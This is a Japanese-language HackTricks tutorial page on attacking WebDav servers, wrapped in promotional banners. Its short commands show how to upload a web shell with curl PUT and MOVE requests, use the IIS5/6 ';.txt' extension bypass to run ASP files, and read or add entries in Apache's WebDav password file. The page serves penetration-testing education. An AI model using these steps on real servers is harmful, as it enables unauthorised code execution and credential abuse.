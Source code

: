 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav)を使用して、世界で最も高度なコミュニティツールによって強化された**ワークフローを簡単に構築し、自動化**します。\
今すぐアクセスを取得：

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

**WebDav**が有効な**HTTPサーバー**を扱う際、正しい**資格情報**があれば**ファイルを操作**することが可能です。通常、これは**HTTP基本認証**を通じて確認されます。このようなサーバーを制御することは、しばしば**ウェブシェルのアップロードと実行**を伴います。

WebDavサーバーへのアクセスには通常、**有効な資格情報**が必要であり、[**WebDavブルートフォース**](../../generic-hacking/brute-force.md#http-basic-auth)がそれを取得する一般的な方法です。

ファイルアップロードの制限を克服するために、特にサーバーサイドスクリプトの実行を防ぐ制限がある場合、次のことができます：

* 制限がない場合、**実行可能な拡張子**を持つファイルを直接**アップロード**する。
* アップロードした非実行可能ファイル（.txtなど）の名前を実行可能な拡張子に**変更**する。
* アップロードした非実行可能ファイルを**コピー**し、その拡張子を実行可能なものに変更する。

## DavTest

**Davtest**は、**異なる拡張子を持つ複数のファイルをアップロードし**、拡張子が**実行されるかどうかを確認**します：
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

これは、**.txt**および**.html拡張子が実行されている**ことを意味するわけではありません。これは、**これらのファイルにアクセスできる**ことを意味します。

## Cadaver

このツールを使用して、**WebDav**サーバーに**手動で**接続し、（**アップロード**、**移動**、または**削除**などの）アクションを実行できます。
```
cadaver <IP>
```
## PUTリクエスト
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE リクエスト
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav)を使用して、世界で最も高度なコミュニティツールによって強化された**ワークフローを簡単に構築し、自動化**します。\
今すぐアクセスを取得：

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## IIS5/6 WebDavの脆弱性

この脆弱性は非常に興味深いです。**WebDav**は**.asp**拡張子のファイルを**アップロード**または**名前変更**することを**許可しません**。しかし、名前の末尾に**";.txt"**を追加することで**バイパス**できます。そうすると、そのファイルはあたかも .asp ファイルであるかのように**実行**されます（**".txt"の代わりに".html"を使用することもできますが、**";"を忘れないでください**）。

その後、あなたはシェルを**".txt"ファイル**として**アップロード**し、それを**".asp;.txt"**ファイルに**コピー/移動**できます。そのファイルにウェブサーバーを通じてアクセスすると、それは**実行**されます（cadaverは移動アクションが機能しなかったと言いますが、実際には機能しました）。

![](<../../.gitbook/assets/image (1092).png>)

## 資格情報のポスト

WebdavがApacheサーバーを使用している場合、Apacheで構成されたサイトを確認する必要があります。一般的に：\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

その中には次のようなものが見つかるかもしれません：
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
ご覧のとおり、**webdav** サーバーの有効な **credentials** を含むファイルがあります:
```
/etc/apache2/users.password
```
このタイプのファイルの中には、**username** と **hash** のパスワードが含まれています。これらは、webdav サーバーがユーザーを認証するために使用している資格情報です。

これらを **crack** するか、何らかの理由で **webdav** サーバーに **access** したい場合は、**add more** を試みることができます：
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
新しい資格情報が機能しているか確認するには、次のようにします:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## References

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav)を使用して、世界で最も先進的なコミュニティツールによって強化された**ワークフローを簡単に構築し、自動化**します。\
今すぐアクセスを取得： 

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
